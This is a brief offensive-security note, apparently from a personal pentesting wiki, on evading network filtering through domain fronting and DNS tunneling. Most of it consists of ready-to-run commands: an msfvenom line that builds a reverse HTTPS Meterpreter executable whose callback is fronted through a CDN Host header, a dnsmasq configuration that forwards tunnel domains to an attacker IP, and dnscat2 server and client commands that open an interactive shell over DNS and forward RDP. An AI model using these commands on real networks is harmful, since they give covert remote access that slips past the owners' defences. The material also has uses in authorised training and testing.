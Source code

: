 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Network_Filtering
---
```



<span style="font-size: 35px; color:red"><b>DNS Tunneling and Network Filtering</b></span>
&nbsp;
Security measures usually in place:
- DNS Filters
- Web Proxies
- IDS and IPS Systems
- HTTPS Inspection
- Domain Fronting (Host header injection)

<span style="font-size: 25px; color:white"><b>Domain Fronting</b></span>
To create a reverse HTTPS meterpreter revshell
```shell
msfvenom -p windows/x64/meterpreter_reverse_https HttpHostHeader=cdn123.offseccdn.com LHOST=good.com LPORT=443 -f exe > https-df.exe
```

<span style="font-size: 25px; color:white"><b>DNS Tunneling</b></span>

Edit /etc/dnsmasq.conf

```
server=/tunnel.com/192.168.119.120
server=/somedomain.com/192.168.119.120
```

then restart the service <span style="color:red">sudo systemctl restart dnsmasq</span> and make sure dnscat2 is installed (<span style="color:red">sudo apt install dnscat2</span>)

then start the process
```shell
dnscat2-server tunnel.com
```

FROM THE WINDOWS MACHINE:
```shell
dnscat2-v0.07-client-win32.exe tunnel.com
```

we can then start communicating with <span style="color:red">session -i 1</span> and run an interactive shell with <span style="color:red">shell</span> (the output will tell you in which window number the shell has been created) and connect to it with <span style="color:red">session -i <window_number></span>

you can also port forword like: <span style="color:red">listen 127.0.0.1:3389 172.16.51.21:3389</span>
